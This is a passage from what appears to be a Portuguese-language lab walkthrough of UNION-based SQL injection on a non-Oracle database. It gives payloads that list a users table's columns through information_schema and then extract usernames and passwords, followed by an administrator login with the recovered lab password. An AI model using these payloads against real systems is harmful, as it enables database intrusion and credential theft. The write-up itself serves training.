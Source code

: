 ```sql
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_yqznnl'--
```

Onde `information_schema.columns` é uma tabela que contém todas as colunas de todas as tabelas do banco de dados, `column_name` é a coluna que contém o nome das colunas e `table_name` é a coluna que contém o nome das tabelas.



![columns](non-Oracle_colunas.PNG)

Listando as colunas da tabela `users_yqznnl` temos `username_jmfatb` e `password_ueihrq`, vamos utilizar essas colunas para recuperar os usuários e senhas, para isso, utilizaremos o seguinte payload:

```sql
' UNION SELECT username_jmfatb, password_ueihrq FROM users_yqznnl--
```

![users](non-Oracle_users.PNG)


Agora basta fazer o login com o usuário `administrator` e a senha `7aasopowcdoj8xk9syyv` e concluiremos o laboratório.

![concluido](non-Oracle_concluido.PNG)

---